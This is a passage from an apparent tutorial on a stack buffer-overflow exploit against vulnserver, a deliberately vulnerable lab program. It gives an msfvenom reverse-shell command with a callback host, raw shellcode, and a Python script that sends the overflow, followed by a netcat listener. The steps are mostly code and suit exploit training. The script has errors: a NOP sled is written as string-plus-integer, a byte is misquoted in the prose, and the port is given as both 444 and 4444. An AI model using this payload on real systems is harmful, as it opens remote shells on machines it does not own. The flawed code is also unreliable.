 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, to generate our payload, the command will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which the target is gonna connect back to
**LPORT:** the port in which target will connect back to
**EXITFUNC:** Makes connection more stable
**-f:** for file type in this case C
**-a:** for architecture, could be x64 or x86
**-b:** for bad characters

- Paste this command into your terminal and you should get a payload

![](https://i.imgur.com/fTp8ZvG.png)

Now insert this payload into this python script replacing the value of the variable `shellcode` with the payload 

```python
#!/usr/bin/python
 
import sys, socket

overflow = ("\xbe\xa0\x7a\x1b\xf1\xdb\xdf\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x70\x12\x83\xc0\x04\x03\xd0\x74\xf9\x04\xec"
"\x61\x7f\xe6\x0c\x72\xe0\x6e\xe9\x43\x20\x14\x7a\xf3\x90"
"\x5e\x2e\xf8\x5b\x32\xda\x8b\x2e\x9b\xed\x3c\x84\xfd\xc0"
"\xbd\xb5\x3e\x43\x3e\xc4\x12\xa3\x7f\x07\x67\xa2\xb8\x7a"
"\x8a\xf6\x11\xf0\x39\xe6\x16\x4c\x82\x8d\x65\x40\x82\x72"
"\x3d\x63\xa3\x25\x35\x3a\x63\xc4\x9a\x36\x2a\xde\xff\x73"
"\xe4\x55\xcb\x08\xf7\xbf\x05\xf0\x54\xfe\xa9\x03\xa4\xc7"
"\x0e\xfc\xd3\x31\x6d\x81\xe3\x86\x0f\x5d\x61\x1c\xb7\x16"
"\xd1\xf8\x49\xfa\x84\x8b\x46\xb7\xc3\xd3\x4a\x46\x07\x68"
"\x76\xc3\xa6\xbe\xfe\x97\x8c\x1a\x5a\x43\xac\x3b\x06\x22"
"\xd1\x5b\xe9\x9b\x77\x10\x04\xcf\x05\x7b\x41\x3c\x24\x83"
"\x91\x2a\x3f\xf0\xa3\xf5\xeb\x9e\x8f\x7e\x32\x59\xef\x54"
"\x82\xf5\x0e\x57\xf3\xdc\xd4\x03\xa3\x76\xfc\x2b\x28\x86"
"\x01\xfe\xff\xd6\xad\x51\x40\x86\x0d\x02\x28\xcc\x81\x7d"
"\x48\xef\x4b\x16\xe3\x0a\x1c\xd9\x5c\x14\x41\xb1\x9e\x14"
"\x68\x1e\x16\xf2\xe0\x8e\x7e\xad\x9c\x37\xdb\x25\x3c\xb7"
"\xf1\x40\x7e\x33\xf6\xb5\x31\xb4\x73\xa5\xa6\x34\xce\x97"
"\x61\x4a\xe4\xbf\xee\xd9\x63\x3f\x78\xc2\x3b\x68\x2d\x34"
"\x32\xfc\xc3\x6f\xec\xe2\x19\xe9\xd7\xa6\xc5\xca\xd6\x27"
"\x8b\x77\xfd\x37\x55\x77\xb9\x63\x09\x2e\x17\xdd\xef\x98"
"\xd9\xb7\xb9\x77\xb0\x5f\x3f\xb4\x03\x19\x40\x91\xf5\xc5"
"\xf1\x4c\x40\xfa\x3e\x19\x44\x83\x22\xb9\xab\x5e\xe7\xd9"
"\x49\x4a\x12\x72\xd4\x1f\x9f\x1f\xe7\xca\xdc\x19\x64\xfe"
"\x9c\xdd\x74\x8b\x99\x9a\x32\x60\xd0\xb3\xd6\x86\x47\xb3"
"\xf2")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" + 32 + overflow

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

Note that the `"\x90" + 32` in `shellcode = "A" * 2003 + "\xaf\x11\x50\62" + "\x90" + 32 + overflow` is called a noop which mean **No Operation**

- Save this script on Linux machine
- Start up a netcat listener on port 444 `nc -lvnp 4444` as specified port we stated in the command used to create the payload earlier
- Now start up vulnserver on your windows machine
- Run the script we saved and you should get a MS DOS shell